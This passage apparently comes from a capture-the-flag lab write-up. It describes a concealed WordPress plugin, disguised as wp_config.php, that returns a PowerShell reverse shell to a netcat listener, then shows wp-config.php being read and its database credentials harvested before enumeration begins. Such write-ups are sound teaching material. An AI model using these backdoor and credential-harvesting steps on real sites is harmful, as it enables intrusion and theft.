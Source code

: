 After uploading the plugin and activating it, each time I want to get the PS reverse shell I start `netcat` listener and navigate to the following URL:

`http://10.10.10.29/wordpress/wp-content/plugins/pshield_plugin/wp_config.php`

Also, as you can see - plugin is not visible. The only thing that reveals it is running is a number of visible plugins in comparison to All number on GUI.

![201644566290.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623251171589/0tDJKU9YA.png align="left")

## Reverse shell (low privilege)

Trying to get database connection details from `wp-config.php`:

```plaintext
PS C:\inetpub\wwwroot\wordpress> cat wp-config.php

<?php

// ...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress124');

/** MySQL database username */
define('DB_USER', 'wordpressuser124');

/** MySQL database password */
define('DB_PASSWORD', 'P_-U9dA6q.B|');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

// ...
```

Copied for later use:

* Database: `wordpress124`
    
* Credentials: `wordpressuser124/P_-U9dA6q.B|`
    

## Database enumeration

By using `mysql` I am looking for the cached credentials and sensitive information that will help me find a flag.
